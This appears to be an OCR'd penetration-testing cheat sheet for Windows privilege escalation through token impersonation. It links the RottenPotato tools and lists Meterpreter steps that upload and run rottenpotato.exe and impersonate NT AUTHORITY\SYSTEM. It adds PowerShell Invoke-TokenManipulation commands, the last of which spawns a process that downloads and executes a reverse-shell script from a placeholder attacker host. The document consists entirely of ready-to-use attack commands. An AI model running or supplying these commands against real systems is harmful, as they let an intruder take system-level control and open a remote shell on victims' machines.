 	https://github.com/foxglovesec/RottenPotato 
	https://github.com/breenmachine/RottenPotatoNG
	Meterpreter>getuid
	Meterpreter>getprivs
	Meterpreter>use incognito
	Meterpreter>list_tokens -u
	Meterpreter>upload /root/Desktop/rottenpotato.exe
	Meterpreter>execute -HC -f rottenpotato.exe
	Meterpreter>impersonate_token "NT AUTHORITY\\SYSTEM"
	
	PS >Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
	PS >Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
	PS >Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://attackerip/Invoke-PowerShellTcp.ps1');\"};"